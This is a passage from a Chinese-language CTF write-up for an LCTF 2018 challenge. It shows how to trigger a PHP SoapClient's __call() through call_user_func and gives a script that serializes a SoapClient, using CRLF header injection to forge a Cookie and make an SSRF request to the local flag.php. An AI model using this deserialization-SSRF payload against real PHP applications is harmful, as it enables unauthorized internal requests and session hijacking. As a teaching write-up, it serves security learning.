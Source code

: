 [![img](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t011a26bc56975fd806.png)

我们看到soapclient想要触发__call()必须要调用不可访问的方法，那我们如何在题目有限的代码里调用不可访问方法呢？

看到这段代码

```
php $a = array(reset($_SESSION),'welcome_to_the_lctf2018'); call_user_func($b,$a);
```

这里想到如下操作

[![img](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0137d5ebab7ecc84ef.png)

我们只要覆盖$b为call_user_func即可成功触发不可访问方法

### payload

那么完成payload即可

soap构造脚本

```
<?php
$target='http://127.0.0.1/flag.php';
$b = new SoapClient(null,array('location' => $target,
                               'user_agent' => "AAA:BBBrn" .
                                             "Cookie:PHPSESSID=dde63k4h9t7c9dfl79np27e912",
                               'uri' => "http://127.0.0.1/"));

$se = serialize($b); 
echo urlencode($se);
```

先发送第一段payload

[![img](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01ca2d21f6702a6fa4.png)

在发送第二段payload

[![img](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01aa4e8c03a2f8e3b2.png)

flag手到擒来！